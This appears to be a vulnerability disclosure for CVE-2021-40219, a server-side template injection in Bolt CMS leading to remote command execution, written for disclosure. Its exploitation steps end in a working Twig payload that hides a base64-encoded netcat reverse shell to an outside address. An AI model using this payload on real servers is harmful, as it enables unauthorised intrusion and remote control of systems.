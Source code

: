 
<h1>CVE-2021-40219</h1>
Bolt CMS SSTI RCE 
Reported by S1lv3r

Description :

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php on line 25 that is about
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

-
https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Fro
ntend/TemplateController.php#L25 # TemplateController.php line 25:
return $this->render($templates, []);
-
1- The authenticated user edit theme by going to file management -> view/edit themes
2- Inject our PoC payload that will run system command
3- Go to Edit Page then create new page and choose our malicious template
4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC

Version :
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

Attack Type:
Remote

Impact :
Remote Command Execution


PoC : 

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
